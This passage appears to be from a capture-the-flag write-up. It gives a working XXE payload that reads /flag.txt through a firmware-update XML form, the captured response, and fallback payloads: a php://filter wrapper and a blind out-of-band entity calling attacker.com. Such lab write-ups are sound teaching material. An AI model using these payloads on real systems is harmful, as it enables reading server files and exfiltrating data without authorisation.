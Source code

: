 ### Final working payload (no XML declaration)
**What we sent (copy-paste into the `/rom` textarea)**
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///flag.txt" >
]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&xxe;</Version>
    </Firmware>
</FirmwareUpdateConfig>
```

**Why this works:**
- The DOCTYPE defines an external entity `xxe` pointing at `file:///flag.txt`.
- When the XML parser expands entities, `&xxe;` is replaced by the contents of `/flag.txt`.
- The app reflected parsed XML into `<pre id="messageText">` so the flag is shown to the user in the HTTP response.

---

## Results — flag retrieved
After submitting the payload into the firmware textarea and pressing **Submit**, the web app printed a success message that included the firmware version filled with the expanded entity. The web UI showed the flag text.

**Observed response (text captured from the page):**
```
Firmware version HTB{b1om3tric_l0cks_<REDACTED>7cca89e9466d40} update initiated....
```

> The raw flag is hidden later in this document (see the hidden section below).

---

## Alternative techniques & fallbacks
If the server had filtered `file:///` or blocked direct file reads, these are common alternative strategies:

1. **Use PHP filter wrapper (if interpreter supports it)**
```xml
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
```
Then the application will include base64 content which you can decode locally.

2. **Blind XXE (out-of-band exfiltration)**
Define an entity that triggers an HTTP request to an attacker-controlled host (if the parser resolves external resources over network):
```xml
<!ENTITY % remote SYSTEM "http://attacker.com/exp">%remote;
```
This requires you to control `attacker.com`'s DNS/HTTP to capture the request.
